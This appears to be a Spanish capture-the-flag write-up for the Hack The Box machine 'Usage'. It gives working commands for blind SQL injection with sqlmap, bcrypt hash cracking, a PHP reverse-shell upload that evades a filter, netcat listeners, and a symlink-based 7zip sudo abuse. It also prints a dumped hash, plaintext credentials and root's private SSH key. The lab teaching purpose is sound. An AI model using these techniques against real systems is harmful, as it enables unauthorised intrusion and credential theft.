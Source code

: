 ```yaml
---
title: Usage
description:  Usage es una máquina Linux fácil de manejar que presenta un sitio de blog vulnerable a inyecciones SQL, lo que permite extraer y descifrar la contraseña cifrada del administrador. Esto lleva al acceso al panel de administración, donde se explota un módulo desactualizado de Laravel para subir un web shell PHP y obtener ejecución remota de código. En la máquina, las credenciales en texto plano almacenadas en un archivo permiten el acceso SSH como otro usuario, quien puede ejecutar un binario personalizado como root. La herramienta realiza una llamada insegura a 7zip, lo que se aprovecha para leer la clave SSH privada del usuario root y comprometer completamente el sistema.
date: 2024-06-07
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-usage/usage_logo.png
categories:
  - Hack The Box
  - Machines
tags:
  - linux
  - hack the box
  - fuzzing web
  - sqli
  - sqli blind
  - cve
  - data leaks
  - password attacks
  - ssh
  - http
  - tcp
  - symlink abuse
  - sudo abuse
  - php
  - information gathering
  - web analysis
  - vulnerability exploitation
  - cve exploitation
  - privilege escalation


---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/usage:-$ sudo nmap -sS -sC -sV 10.10.11.18 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](/assets/img/htb-writeup-usage/usage1_1.png)

```terminal
/home/kali/Documents/htb/machines/usage:-$ echo '10.10.11.18\tusage.htb\tadmin.usage.htb' > sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/htb/machines/usage:-$ dirb http://usage.htb/ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt

+ http://usage.htb/login (CODE:200|SIZE:5141)
+ http://usage.htb/registration (CODE:200|SIZE:5112)
+ http://usage.htb/logout (CODE:302|SIZE:334)
```
---
## Web Analysis & Vulnerability Exploitation

![](/assets/img/htb-writeup-usage/usage1_2.png)
![](/assets/img/htb-writeup-usage/usage1_3.png)
![](/assets/img/htb-writeup-usage/usage2.png)

Luego de unas pruebas, encuentro que la direccion `/forget-password` es vulnerable a SQL injection Blind.

![](/assets/img/htb-writeup-usage/usage3_1.png)

Utilizo Sqlmap para enumerar la base de datos.

```terminal
/home/kali/Documents/htb/machines/usage:-$ sudo sqlmap -r request.txt -p email --level 5 --risk 3 --threads 10 -D database_name --tables
```
![](/assets/img/htb-writeup-usage/usage3_2.png)

Y logro encontrar un hash que le pertenece al usuario `administrator`.

```terminal
/home/kali/Documents/htb/machines/usage:-$ sudo sqlmap -r request4.txt  -p email --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch -D usage_blog -T admin_users --dump --threads 3
[INFO] retrieved: admin
[DEBUG] performed 40 queries in 67.10 seconds
[DEBUG] analyzing table dump for possible password hashes
Database: usage_blog
Table: admin_users
[1 entry]
+--------------------------------------------------------------+----------
| id | name   | avatar  | password   | username | created_at     | updated_at   | remember_token      

|1|Administrator|<blank>|$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2|admin|2023-08-13 02:48:26|2024-05-30 22:06:55|kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT|
+--------------------------------------------------------------+----------
```

```terminal
/home/kali/Documents/htb/machines/usage:-$ echo '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2' > hash

/home/kali/Documents/htb/machines/usage:-$ hashcat --show hash
3200  | bcrypt $2*$, Blowfish (Unix)                    | Operating System

/home/kali/Documents/htb/machines/usage:-$ hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1
```

Consigo logearme como `administrador`. 

---
## CVE Exploitation

Analizando la pagina encuentro que la version de laravel es vulnerable, [CVE-2023-24249](https://nvd.nist.gov/vuln/detail/CVE-2023-24249).

Por tanto puedo insertar una reverse shell.

<https://pentestmonkey.net/tools/web-shells/php-reverse-shell>

![](/assets/img/htb-writeup-usage/usage4.png)

Solo permite subir un archivo de imagen a la web. Por lo que los pasos a seguir, son:

* Cambiar la extencion de la reverse shell de `.php` a `.jpg`.

* Me pongo a la escucha con Netcat por dos puertos distintos (la conexion por la shell no durara mucho tiempo, por lo que tengo que establecer otra conexion por un puerto distinto).

* Subo la shell e intercepto la peticion `POST` con Burp Suite, para cambiar manualmente la extenccion a `.php`.

* Devuelvo la peticion manipulada y navego donde esta alojada la shell `http://admin.usage.htb/uploads/img/injection.php` para ejecutarla.

* Finalmente recibo la conexion por el puerto 1234 y rapidamente creo una nueva conexion mas estable por el puerto 4444.

```terminal
/home/kali/Documents/htb/machines/usage:-$ mv injection.php injection.jpg
/home/kali/Documents/htb/machines/usage:-$ nc -lnvp 1234
/home/kali/Documents/htb/machines/usage:-$ nc -lnvp 4444
```

![](/assets/img/htb-writeup-usage/usage4_3.png)
![](/assets/img/htb-writeup-usage/usage4_4.png)

```terminal
dash@usage:~$ cat user.txt
```

---
## Privilege Escalation

![](/assets/img/htb-writeup-usage/usage5.png)

En el archivo `.monitrc` encuentro credenciales para el usuario `xander`

```terminal
dash@usage:~$ cat .monitrc
	Enable Web Access
	set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

/home/kali/Documents/htb/machines/usage:-$ ssh xander@10.10.11.18
xander@10.10.11.18's password: 3nc0d3d_pa$$w0rd
```
El usario `xander` puede ejecutar el comando `/usr/bin/usage_management` como sudo.

```terminal
xander@usage:~$ sudo -l
```

![](/assets/img/htb-writeup-usage/usage6.png)

```terminal
xander@usage:~$ sudo /usr/bin/usage_management
	Choose an option:
	1. Project Backup
	2. Backup MySQL data
	3. Reset admin password
	Enter your choice (1/2/3): 1
```
Me muevo al directorio `/var/www/html` y creo un archivo vacio llamado `@id_rsa`

```terminal
xander@usage:/var/www/html$ touch @id_rsa
```
Con `id_rsa` creo un enlace simbólico en el directorio actual que apunta al archivo `/root/.ssh/id_rsa`. Esto significa que cualquier acceso al archivo `id_rsa` en `/var/www/html` se redirige al archivo real ubicado en `/root/.ssh/id_rsa`.

```terminal
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
```

![](/assets/img/htb-writeup-usage/usage8.png)

```terminal
kali/home/kali/Documents/htb/machines/usage:-$ nano id_rsa
	-----BEGIN OPENSSH PRIVATE KEY-----
	b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
	QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
	QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
	AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
	H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
	-----END OPENSSH PRIVATE KEY-----
	
kali/home/kali/Documents/htb/machines/usage:-$ chmod 600 id_rsa
```
```terminal
kali/home/kali/Documents/htb/machines/usage:-$ ssh -i id_rsa root@10.10.11.18
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

root@usage:~# cat /root/root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/597" target="_blank">Usage Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }